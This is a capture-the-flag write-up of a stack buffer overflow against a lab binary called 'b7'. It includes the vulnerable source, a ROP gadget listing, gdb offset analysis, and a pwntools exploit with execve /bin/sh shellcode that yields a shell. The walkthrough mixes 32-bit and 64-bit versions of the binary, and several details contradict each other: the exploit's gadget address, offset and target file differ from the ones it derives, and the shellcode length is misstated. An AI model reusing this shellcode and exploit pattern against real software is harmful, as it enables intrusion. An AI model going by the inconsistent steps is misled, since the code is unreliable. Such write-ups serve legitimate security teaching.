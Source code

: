 Let's first check out to see if this challenge has any binary hardening mitigations.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b7$ pwn checksec b7
[*] '/Hackery/escape/buf_ovf/b7/b7'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

So as you can see, we are a bit lucky in the fact that this has no binary hardening. Let's look at the source code.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b7$ cat b7.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void pls_stop()
{
	unsigned int ret_adr;
	char buf0[50];
	fgets(buf0, 100, stdin);
	ret_adr = __builtin_return_address(0);

	if ((ret_adr & 0xf0000000) == 0xf0000000)
	{
		printf("Due to the lack of research, we had to make budget cuts.\n");
		exit(0);
	}
	printf("When you get done with hacking, your research is at %p. Just incase you feel like doing work.\n", ret_adr);
	strdup(buf0);
}

int main()
{
	printf("If you do not get back to your research now, we will have to implement corrective solutions.\n");
	pls_stop();
}
```

So we can see something new with this challenge. After the call to fgets, it checks to see if the return address stored in the rip register starts with a "0xf", and if it does the program kills itself. This sucks for us because all address on the stack (where we could potentially push shellcode), or address from libc (where we could pull the address from system) will just kill the program if we try to call it. However we see something further down. We see that it calls strdup on our input, which should store an address to our input in the rax register (which is a primary I/O register). Let's see if there are any ROP Gadgets that can help us.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b7_64$ ROPgadget --binary b7_64 | grep rax
0x000000000040074d : add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040074b : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004005ac : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040074c : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000004004c3 : add byte ptr [rax], al ; add rsp, 8 ; ret
0x00000000004005ae : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040074e : add byte ptr [rax], al ; ret
0x0000000000400617 : and byte ptr [rax], al ; add ebx, esi ; ret
0x000000000040063e : call rax
0x000000000040072c : fmul qword ptr [rax - 0x7d] ; ret
0x0000000000400639 : int1 ; push rbp ; mov rbp, rsp ; call rax
0x000000000040059d : je 0x4005b8 ; pop rbp ; mov edi, 0x600c08 ; jmp rax
0x00000000004005eb : je 0x400600 ; pop rbp ; mov edi, 0x600c08 ; jmp rax
0x0000000000400638 : je 0x400631 ; push rbp ; mov rbp, rsp ; call rax
0x00000000004005a5 : jmp rax
0x00000000004004c1 : jnp 0x4004cb ; add byte ptr [rax], al ; add rsp, 8 ; ret
0x000000000040063c : mov ebp, esp ; call rax
0x00000000004005a0 : mov edi, 0x600c08 ; jmp rax
0x000000000040063b : mov rbp, rsp ; call rax
0x00000000004005a8 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000400748 : nop dword ptr [rax + rax] ; ret
0x00000000004005f5 : nop dword ptr [rax] ; pop rbp ; ret
0x000000000040059f : pop rbp ; mov edi, 0x600c08 ; jmp rax
0x000000000040063a : push rbp ; mov rbp, rsp ; call rax
0x0000000000400637 : sal byte ptr [rcx + rsi*8 + 0x55], 0x48 ; mov ebp, esp ; call rax
0x00000000004005aa : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040074a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x0000000000400636 : test eax, eax ; je 0x400633 ; push rbp ; mov rbp, rsp ; call rax
0x0000000000400635 : test rax, rax ; je 0x400634 ; push rbp ; mov rbp, rsp ; call rax
```

Here is something interesting...

```
0x000000000040063e : call rax
```

So that will call rax. RAX (which is the 64 bit version of eax) stores an address to our input. So if we hit the eip register with "0x000000000040063e", it will run our input. And since the stack is executable, nothing will stop it. Let's find the offset.

```
gdb-peda$ disas pls_stop
Dump of assembler code for function pls_stop:
   0x0000000000400646 <+0>: push   rbp
   0x0000000000400647 <+1>: mov    rbp,rsp
   0x000000000040064a <+4>: sub    rsp,0x40
   0x000000000040064e <+8>: mov    rdx,QWORD PTR [rip+0x2005bb]        # 0x600c10 <stdin@@GLIBC_2.2.5>
   0x0000000000400655 <+15>:  lea    rax,[rbp-0x40]
   0x0000000000400659 <+19>:  mov    esi,0x64
   0x000000000040065e <+24>:  mov    rdi,rax
   0x0000000000400661 <+27>:  call   0x400510 <fgets@plt>
   0x0000000000400666 <+32>:  mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040066a <+36>:  mov    DWORD PTR [rbp-0x4],eax
   0x000000000040066d <+39>:  mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400670 <+42>:  and    eax,0xf0000000
   0x0000000000400675 <+47>:  cmp    eax,0xf0000000
   0x000000000040067a <+52>:  jne    0x400690 <pls_stop+74>
   0x000000000040067c <+54>:  mov    edi,0x400768
   0x0000000000400681 <+59>:  call   0x4004e0 <puts@plt>
   0x0000000000400686 <+64>:  mov    edi,0x0
   0x000000000040068b <+69>:  call   0x400520 <exit@plt>
   0x0000000000400690 <+74>:  mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400693 <+77>:  mov    esi,eax
   0x0000000000400695 <+79>:  mov    edi,0x4007a8
   0x000000000040069a <+84>:  mov    eax,0x0
   0x000000000040069f <+89>:  call   0x4004f0 <printf@plt>
   0x00000000004006a4 <+94>:  lea    rax,[rbp-0x40]
   0x00000000004006a8 <+98>:  mov    rdi,rax
   0x00000000004006ab <+101>: call   0x400530 <strdup@plt>
   0x00000000004006b0 <+106>: nop
   0x00000000004006b1 <+107>: leave  
   0x00000000004006b2 <+108>: ret    
End of assembler dump.
gdb-peda$ b *pls_stop+32
Breakpoint 1 at 0x400666
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b7_64/b7_64 
If you do not get back to your research now, we will have to implement corrective solutions.
75395128
```

One wall of text later...

```
Breakpoint 1, 0x0000000000400666 in pls_stop ()
gdb-peda$ x/s $rbp-0x40
0x7fffffffde10: "75395128\n"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x400666 in pls_stop; saved rip = 0x4006cb
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
```

And onto the quest for the holy grail...

```
>>> 0x7fffffffde58 - 0x7fffffffde10
72
```

So the offset is 72. For the shellcode we are just going to recycle the shellcode from b5_64, since it is the same architecture it will work. The shellcode we have is 27 charactes long, so our offset only needs to be 45 after it. Now that we have the rop gadget, offset, and shellcode we can write the exploit.

```
#Import pwntools
from pwn import *

#Start the binary
target = process('./b7')

#Print the text from the binary to reach fgets
print target.recvline();

#Create the offset
offset = "0"*32

#Declare the shellcode
shellcode = "\x6a\x18\x58\xcd\x80\x50\x50\x5b\x59\x6a\x46\x58\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80"

#Declare the ROP Gadget
gadget = p32(0x08048443)

#Construct the payload
payload = shellcode + offset + gadget

#Let's write the payload to a file, for gdb troubleshooting
p = open("in", "w")
p.write(payload)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

Now let's try it...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b7_64$ python exploit.py 
[+] Starting local process './b7_64': Done
If you do not get back to your research now, we will have to implement corrective solutions.

[*] Switching to interactive mode
When you get done with hacking, your research is at 0x40063e. Just incase you feel like doing work.
$ echo lemons
lemons
$ ls
Readme.md  b7_64  b7_64.c  exploit.py  in  out    peda-session-b7_64.txt
$ cat out
If you don't stop, we will start implementing actual security. With guns, and sharks. You hate those, don't you? Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b7_64' stopped with exit code 0
[*] Got EOF while sending in interactive
```

Just like that, we pwned the binary. 
